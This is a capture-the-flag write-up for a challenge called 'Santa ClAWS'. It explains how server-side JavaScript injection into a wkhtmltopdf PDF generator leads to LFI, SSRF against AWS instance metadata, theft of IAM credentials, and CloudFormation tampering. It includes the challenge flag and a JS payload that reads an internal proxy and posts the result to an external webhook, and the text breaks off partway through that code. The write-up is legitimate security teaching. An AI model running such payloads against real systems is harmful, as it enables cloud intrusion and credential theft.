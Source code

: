 # Level 7: `Santa ClAWS`
**Flag:** `TISC{iMPURrf3C7_sSRFic473_Si73_4nd_c47_4S7r0PHiC_fL4w5}`

## TL;DR
- The application exposes a PDF generator (`/generate-flyer`) which accepts HTML/JS input that is executed during server-side PDF rendering (wkhtmltopdf). This allowed injection of JS that can perform LFI and SSRF. 
- Exploration of server files revealed an internal reverse-proxy to the AWS Instance Metadata Service (IMDS) and internal services. Interacting with the IMDS via the proxy and retrieving IAM credentials, I enumerated S3 buckets, Secrets Manager and listed EC2 instances, which revealed a part of the flag, an internal API key, and an internal EC2 server respetively. 
- The internal EC2 instance hosts another HTTP server which is also vulnerable to SSRF, access to IMDS and retrieving internal IAM credentials. The internal server also allows using the previously found API key to invoke an internal API Gateway, and finally manipulated a CloudFormation stack template (temporarily removing `NoEcho`) to recover the second part of the flag.

---

## 1. Initial observations
- The PDF generator runs `wkhtmltopdf` server-side and renders supplied HTML/JS. This implies server-side code executes network requests from the server context during pdf generation.  
- The challenge name hints at AWS/EC2; assume services like IMDS and internal EC2 instances may be accessible from the app host.

---

## 2. Vulnerability: server-side HTML/JS injection during PDF render
The flyer generation form at `/generate-flyer` takes user-supplied HTML/JS and passes it to `wkhtmltopdf` (v0.12.6). Because rendering occurs server-side, HTML `<script>` tags allow us to run arbitrary JS, allowing the server to fetch arbitrary URIs (LFI/SSRF).

---

## 3. Discovery: reverse proxy to IMDS
Direct SSRF to `http://169.254.169.254/` appeared blocked as the server would return internal server error or hang for a long time. Instead, enumeration of the filesystem revealed an environment variable with a non-standard port:

```
/etc/environment
REVERSE_PROXY_PORT=45198
````

Connecting to the reverse proxy:

```js
try {
    var webhook = "https://webhook.site/...";

    var t = new XMLHttpRequest();
    t.open("GET","http://127.0.0.1:45198/",false);
    t.send();
    var out = "STATUS: " + t.status + "\n\n" + t.responseText

    var p = new XMLHttpRequest();
    p.open("POST", webhook, true);
    p.setRequestHeader("Content-Type","text/plain;charset=UTF-8");
    p.send(out);

} catch(e){
    var p = new XMLHttpRequest();
```